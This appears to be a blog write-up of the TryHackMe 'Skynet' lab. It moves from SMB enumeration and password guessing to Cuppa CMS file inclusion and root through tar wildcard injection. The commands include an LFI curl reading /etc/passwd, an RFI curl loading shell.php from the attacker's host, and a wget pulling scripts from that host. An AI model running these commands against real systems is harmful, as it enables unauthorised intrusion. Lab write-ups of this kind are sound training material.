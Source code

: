```yaml
---
layout: post
title: Tryhackme.com Skynet
date: 2020-02-04 17:15
author: rowbot
comments: true
categories: [tryhackme.com]
---
```

<!-- wp:image {"align":"center","id":926,"sizeSlug":"large"} -->
<div class="wp-block-image"><figure class="aligncenter size-large"><img src="http://offsecnewbie.com/wp-content/uploads/2020/02/image-1.png" alt="" class="wp-image-926"/></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>This was a really fun machine that exposed an anonymous samba share which gave info on a user and that their passwords will have to be changed. You find a log file which contains to be what looks like passwords. Using this log file and the info from the samba share I get into the user's share and reveal a secret web directory. This runs a vulnerable CMS which allows you to get shell. </p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Priv Esc was interested and something I've not come across. Taking advantage of a cron job tarring up files using a wildcard, I could include my own reverse shell and get it to run.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Never has a way to stop the machine seemed so right</p>
<!-- /wp:paragraph -->

<!-- wp:image {"align":"center","id":925,"sizeSlug":"large"} -->
<div class="wp-block-image"><figure class="aligncenter size-large"><img src="https://i1.wp.com/offsecnewbie.com/wp-content/uploads/2020/02/image.png?fit=680%2C112" alt="" class="wp-image-925"/></figure></div>
<!-- /wp:image -->

<!-- wp:image {"align":"center","id":939,"sizeSlug":"large"} -->
<div class="wp-block-image"><figure class="aligncenter size-large"><img src="http://offsecnewbie.com/wp-content/uploads/2020/02/image-6.png" alt="" class="wp-image-939"/></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Port 80 reveals a website which just contains an image and a text bar but doesn't accept any inputs</p>
<!-- /wp:paragraph -->

<!-- wp:image {"align":"center","id":930,"sizeSlug":"large"} -->
<div class="wp-block-image"><figure class="aligncenter size-large"><img src="http://offsecnewbie.com/wp-content/uploads/2020/02/image-2.png" alt="" class="wp-image-930"/></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>I ran dirsearch on it to reveal hidden directories </p>
<!-- /wp:paragraph -->

<!-- wp:image {"align":"center","id":934,"sizeSlug":"large"} -->
<div class="wp-block-image"><figure class="aligncenter size-large"><img src="https://i2.wp.com/offsecnewbie.com/wp-content/uploads/2020/02/image-3.png?fit=680%2C371" alt="" class="wp-image-934"/></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>/admin jumps out at me but thats a 301 forbidden with no redirect. /squirrelmail has a 301 but has a redirect to http://10.10.42.11/squirrelmail/src/login.php</p>
<!-- /wp:paragraph -->

<!-- wp:image {"align":"center","id":937,"sizeSlug":"large"} -->
<div class="wp-block-image"><figure class="aligncenter size-large"><img src="http://offsecnewbie.com/wp-content/uploads/2020/02/image-4.png" alt="" class="wp-image-937"/></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>After trying default and common creds. I looked in searchsploit</p>
<!-- /wp:paragraph -->

<!-- wp:image {"align":"center","id":938,"sizeSlug":"large"} -->
<div class="wp-block-image"><figure class="aligncenter size-large"><img src="http://offsecnewbie.com/wp-content/uploads/2020/02/image-5.png" alt="" class="wp-image-938"/><figcaption>nothing here</figcaption></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Looking back at the nmap scan I see there is a smb port open 445. </p>
<!-- /wp:paragraph -->

<!-- wp:image {"align":"center","id":943,"sizeSlug":"large"} -->
<div class="wp-block-image"><figure class="aligncenter size-large"><img src="http://offsecnewbie.com/wp-content/uploads/2020/02/image-8.png" alt="" class="wp-image-943"/></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>There are several shares but only 1 has read only access. There is also a few directories and a text file. I download the text file and read the contents. I also notice a milesdyson share - likely a username.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"align":"center","id":945,"sizeSlug":"large"} -->
<div class="wp-block-image"><figure class="aligncenter size-large"><img src="https://i1.wp.com/offsecnewbie.com/wp-content/uploads/2020/02/image-10.png?fit=680%2C117" alt="" class="wp-image-945"/></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>I wonder if the new password has been emailed to him.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Using smbmap -H 10.10.42.11 -R lists all files. I see there is a log1.txt, log2.txt. log3.txt file. I download the log1.txt as its the only log file that is not zero bytes.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"align":"center","id":947,"sizeSlug":"large"} -->
<div class="wp-block-image"><figure class="aligncenter size-large"><img src="http://offsecnewbie.com/wp-content/uploads/2020/02/image-11.png" alt="" class="wp-image-947"/></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Using Kali's file viewer i browse to the share and open the logs1.txt. Sometimes it's just easier with a GUI!</p>
<!-- /wp:paragraph -->

<!-- wp:image {"align":"center","id":949,"sizeSlug":"large"} -->
<div class="wp-block-image"><figure class="aligncenter size-large"><img src="http://offsecnewbie.com/wp-content/uploads/2020/02/image-13.png" alt="" class="wp-image-949"/></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>It looks like a password list. I didn't want to go through them individually so i fired up burp as I wasn't having any joy with hydra. If you have done with hydra it please comment your command.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"align":"center","id":953,"sizeSlug":"large"} -->
<div class="wp-block-image"><figure class="aligncenter size-large"><img src="http://offsecnewbie.com/wp-content/uploads/2020/02/image-17.png" alt="" class="wp-image-953"/><figcaption>added payload marker here</figcaption></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>and added the log1.txt file</p>
<!-- /wp:paragraph -->

<!-- wp:image {"align":"center","id":954,"sizeSlug":"large"} -->
<div class="wp-block-image"><figure class="aligncenter size-large"><img src="http://offsecnewbie.com/wp-content/uploads/2020/02/image-18.png" alt="" class="wp-image-954"/></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Looking for the length to be different to most of the other payloads</p>
<!-- /wp:paragraph -->

<!-- wp:image {"align":"center","id":956,"sizeSlug":"large"} -->
<div class="wp-block-image"><figure class="aligncenter size-large"><img src="http://offsecnewbie.com/wp-content/uploads/2020/02/image-20.png" alt="" class="wp-image-956"/></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>It worked and got logged in</p>
<!-- /wp:paragraph -->

<!-- wp:image {"align":"center","id":957,"sizeSlug":"large"} -->
<div class="wp-block-image"><figure class="aligncenter size-large"><img src="http://offsecnewbie.com/wp-content/uploads/2020/02/image-21.png" alt="" class="wp-image-957"/></figure></div>
<!-- /wp:image -->

<!-- wp:image {"align":"center","id":958,"sizeSlug":"large"} -->
<div class="wp-block-image"><figure class="aligncenter size-large"><img src="http://offsecnewbie.com/wp-content/uploads/2020/02/image-22.png" alt="" class="wp-image-958"/></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>So now I have a samba password which I can use to login to miles' share.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"align":"center","id":959,"sizeSlug":"large"} -->
<div class="wp-block-image"><figure class="aligncenter size-large"><img src="http://offsecnewbie.com/wp-content/uploads/2020/02/image-23.png" alt="" class="wp-image-959"/></figure></div>
<!-- /wp:image -->

<!-- wp:image {"align":"center","id":960,"sizeSlug":"large"} -->
<div class="wp-block-image"><figure class="aligncenter size-large"><img src="http://offsecnewbie.com/wp-content/uploads/2020/02/image-24.png" alt="" class="wp-image-960"/></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>There is another text file called important.txt</p>
<!-- /wp:paragraph -->

<!-- wp:image {"align":"center","id":961,"sizeSlug":"large"} -->
<div class="wp-block-image"><figure class="aligncenter size-large"><img src="http://offsecnewbie.com/wp-content/uploads/2020/02/image-25.png" alt="" class="wp-image-961"/></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>It reveals a directory in the webserver which Fuzzing would have taken years to get and that isn't in any wordlist.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"align":"center","id":963,"sizeSlug":"large"} -->
<div class="wp-block-image"><figure class="aligncenter size-large"><img src="https://i1.wp.com/offsecnewbie.com/wp-content/uploads/2020/02/image-27.png?fit=680%2C307" alt="" class="wp-image-963"/><figcaption>"My personal entry code for the lab might still work (card reader buzzes) no go."</figcaption></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>"<strong>The Terminator:</strong>&nbsp;let me try mine (loads dirsearch)"</p>
<!-- /wp:paragraph -->

<!-- wp:image {"align":"center","id":965,"sizeSlug":"large"} -->
<div class="wp-block-image"><figure class="aligncenter size-large"><img src="https://i0.wp.com/offsecnewbie.com/wp-content/uploads/2020/02/image-29.png?fit=680%2C110" alt="" class="wp-image-965"/></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>/administrator reveals cuppa CMS</p>
<!-- /wp:paragraph -->

<!-- wp:image {"align":"center","id":966,"sizeSlug":"large"} -->
<div class="wp-block-image"><figure class="aligncenter size-large"><img src="http://offsecnewbie.com/wp-content/uploads/2020/02/image-30.png" alt="" class="wp-image-966"/></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>again default, common creds as well as miles' password doesn't work. Neither does the log1.txt file using burp.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Searchsploit reveals an exploit</p>
<!-- /wp:paragraph -->

<!-- wp:image {"align":"center","id":967,"sizeSlug":"large"} -->
<div class="wp-block-image"><figure class="aligncenter size-large"><img src="http://offsecnewbie.com/wp-content/uploads/2020/02/image-31.png" alt="" class="wp-image-967"/><figcaption>https://www.exploit-db.com/exploits/25971</figcaption></figure></div>
<!-- /wp:image -->

<!-- wp:image {"align":"center","id":968,"sizeSlug":"large"} -->
<div class="wp-block-image"><figure class="aligncenter size-large"><img src="https://i0.wp.com/offsecnewbie.com/wp-content/uploads/2020/02/image-32.png?fit=680%2C214" alt="" class="wp-image-968"/><figcaption>I check to see if it works and it does.</figcaption></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>When the output is encoded in base64 you can get curl to decode it automatically</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">curl -s --data-urlencode urlConfig=../../../../../../../../../etc/passwd http://10.10.42.11/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"align":"center","id":974,"sizeSlug":"large"} -->
<div class="wp-block-image"><figure class="aligncenter size-large"><img src="http://offsecnewbie.com/wp-content/uploads/2020/02/image-38.png" alt="" class="wp-image-974"/></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>I noticed that in the exploit notes that I can do a RFI</p>
<!-- /wp:paragraph -->

<!-- wp:image {"align":"center","id":969,"sizeSlug":"large"} -->
<div class="wp-block-image"><figure class="aligncenter size-large"><img src="http://offsecnewbie.com/wp-content/uploads/2020/02/image-33.png" alt="" class="wp-image-969"/></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>I create a rshell calling it shell.php</p>
<!-- /wp:paragraph -->

<!-- wp:image {"align":"center","id":970,"sizeSlug":"large"} -->
<div class="wp-block-image"><figure class="aligncenter size-large"><img src="http://offsecnewbie.com/wp-content/uploads/2020/02/image-34.png" alt="" class="wp-image-970"/></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>I could not get shell. For some reason the php code was be outputting in base64 instead of being executed</p>
<!-- /wp:paragraph -->

<!-- wp:image {"align":"center","id":972,"sizeSlug":"large"} -->
<div class="wp-block-image"><figure class="aligncenter size-large"><img src="https://i2.wp.com/offsecnewbie.com/wp-content/uploads/2020/02/image-36.png?fit=680%2C284" alt="" class="wp-image-972"/></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>I then realised I had the wrong parameters in the address. </p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">curl http://10.10.42.11/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.8.5.219/shell.php</pre>
<!-- /wp:preformatted -->

<!-- wp:paragraph -->
<p>and not</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">curl http://10.10.42.11/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=<strong>php://filter/convert.base64-encode/resource=</strong>http://10.8.5.219/shell.php</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"align":"center","id":975,"sizeSlug":"large"} -->
<div class="wp-block-image"><figure class="aligncenter size-large"><img src="http://offsecnewbie.com/wp-content/uploads/2020/02/image-39.png" alt="" class="wp-image-975"/></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>to get full tty</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">On victim
python -c 'import pty;pty.spawn("/bin/bash")'
Ctrl-z
On attacker
echo $TERM # note down
stty -a # note down rows and cols
stty raw -echo # this may be enough
fg
On victim
reset
export SHELL=bash
export TERM=xterm256-color
stty rows 38 columns 225</pre>
<!-- /wp:preformatted -->

<!-- wp:paragraph -->
<p>I shared my linux priv esc scripts on a webserver and downloaded them to the box</p>
<!-- /wp:paragraph -->

<!-- wp:image {"align":"center","id":977,"sizeSlug":"large"} -->
<div class="wp-block-image"><figure class="aligncenter size-large"><img src="http://offsecnewbie.com/wp-content/uploads/2020/02/image-41.png" alt="" class="wp-image-977"/></figure></div>
<!-- /wp:image -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">https://guide.offsecnewbie.com/privilege-escalation/linux-pe#copy-them-over</pre>
<!-- /wp:preformatted -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">wget -nd -np -R "index.html*" -P /tmp/rowbot --recursive http://10.8.5.219</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"align":"center","id":978,"sizeSlug":"large"} -->
<div class="wp-block-image"><figure class="aligncenter size-large"><img src="http://offsecnewbie.com/wp-content/uploads/2020/02/image-42.png" alt="" class="wp-image-978"/></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>I always like to see what is running on the box first so I chmod +x everything and run pspy64. I double check to see if its 64 bit arch and it is</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Linux skynet 4.8.0-58-generic #63~16.04.1-Ubuntu SMP Mon Jun 26 18:08:51 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>I give it a minute and see a cron job running</p>
<!-- /wp:paragraph -->

<!-- wp:image {"align":"center","id":981,"sizeSlug":"large"} -->
<div class="wp-block-image"><figure class="aligncenter size-large"><img src="http://offsecnewbie.com/wp-content/uploads/2020/02/image-44.png" alt="" class="wp-image-981"/></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>root is running this (UID=0) and by the looks of the backup.sh file  there is a wildcard which I can take advantage of</p>
<!-- /wp:paragraph -->

<!-- wp:image {"align":"center","id":983,"sizeSlug":"large"} -->
<div class="wp-block-image"><figure class="aligncenter size-large"><img src="http://offsecnewbie.com/wp-content/uploads/2020/02/image-46.png" alt="" class="wp-image-983"/></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>So root is tarring everything in the /var/www/html folder</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>I googled tar and wildcards and priv esc and found <a href="https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt">https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt</a></p>
<!-- /wp:paragraph -->

<!-- wp:image {"align":"center","id":986,"sizeSlug":"large"} -->
<div class="wp-block-image"><figure class="aligncenter size-large"><img src="http://offsecnewbie.com/wp-content/uploads/2020/02/image-48.png" alt="" class="wp-image-986"/></figure></div>
<!-- /wp:image -->

<!-- wp:image {"align":"center","id":988,"sizeSlug":"large"} -->
<div class="wp-block-image"><figure class="aligncenter size-large"><img src="http://offsecnewbie.com/wp-content/uploads/2020/02/image-50.png" alt="" class="wp-image-988"/></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>--checkpoint-action=exec=sh rootshell.sh' are passed to the<br>'tar' program as command line options. Basically, they command tar to execute shell.sh<br>shell script upon the execution.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>So, with this tar argument pollution, we can basically execute arbitrary commands<br>with privileges of the user that runs tar. As demonstrated on the 'root' account above.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"align":"center","id":984,"sizeSlug":"large"} -->
<div class="wp-block-image"><figure class="aligncenter size-large"><img src="https://i2.wp.com/offsecnewbie.com/wp-content/uploads/2020/02/image-47.png?fit=680%2C139" alt="" class="wp-image-984"/><figcaption>got root</figcaption></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>I run pspy64 to see the commands being run</p>
<!-- /wp:paragraph -->

<!-- wp:image {"align":"center","id":987,"width":580,"height":47,"sizeSlug":"large"} -->
<div class="wp-block-image"><figure class="aligncenter size-large is-resized"><img src="http://offsecnewbie.com/wp-content/uploads/2020/02/image-49.png" alt="" class="wp-image-987" width="580" height="47"/></figure></div>
<!-- /wp:image -->

<!-- wp:image {"align":"center","id":1001,"sizeSlug":"large"} -->
<div class="wp-block-image"><figure class="aligncenter size-large"><img src="http://offsecnewbie.com/wp-content/uploads/2020/02/image-51.png" alt="" class="wp-image-1001"/></figure></div>
<!-- /wp:image -->
